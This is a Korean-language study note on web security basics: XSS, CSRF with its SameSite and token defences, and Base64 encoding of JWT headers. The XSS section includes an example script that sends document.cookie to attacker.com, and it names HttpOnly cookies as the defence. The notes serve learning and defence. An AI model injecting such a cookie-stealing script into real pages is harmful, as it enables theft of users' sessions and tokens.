 ### XSS(Cross-Site Scripting)

- 토큰을 어떻게 탈취한다는 거야?

- 웹사이트 내부에 악성 스크립트를 삽입해서 다른 사용자의 브라우저에서 스크립트를 실행시키는 공격

- 예를들어 공격자의 사이트에 들어갔는데 공격자의 사이트에 아래와 같은 스크립트가 있다고 해보면

  ```html
  <script>
  fetch("https://attacker.com/steal?cookie=" + document.cookie)
  </script>
  ```

  해당 스크립트가 실행되어서 내 쿠키나 JWT 토큰이 공격자에게 전송 될 수 있다

- HttpOnly 쿠키를 사용해서 JS에서 쿠키 접근을 차단하는 방법이 존재한다.

### CSRF(Cross-Site Request Forgery)

- 사이트 간 요청 위조
- 인증된 사용자의 브라우저를 이용하여 원치 않은 요청을 서버로 보내게 만드는 공격
- SameSite 쿠키 속성을 사용하여 외부 사이트에서 보낸 요청은 쿠키 자동 전송을 막을 수 있고, CSRF 토큰을 사용하여 폼 전송시 서버가 발급한 숨겨진 토큰을 함께 보내고 검증하는 방법도 존재.

### Base64 인코딩

- Base64는 이진(binary) 데이터를 사람이 읽을 수 있는 문자 형태로 바꾸는 인코딩 방식

- JSON 데이터를 base64로 인코딩 한다는 것은

  JSON 문자열(예: {"alg": "HS256", "typ": "JWT" })을 그냥 전송하면 특수 문자나 공백 때문에 *문제가 생길 수 있어서* 이를 영문자, 숫자, +, /, = 등의 안전한 문자만 사용하는 문자열로 바꿔놓은 것.

  즉, 데이터를 **안전하게 전송**하기 위해서 문자 코드로 바꾼 상태

  :bulb: HTTP나 쿠기, URL 등에서는 일부 문자가 문법적으로 특수문자로 인식되어 문제가 발생할 수 있다.

- 그렇다면 base64 디코딩은?

  base64로 바꾼 걸 다시 원래 JSON 형태로 돌리는 것
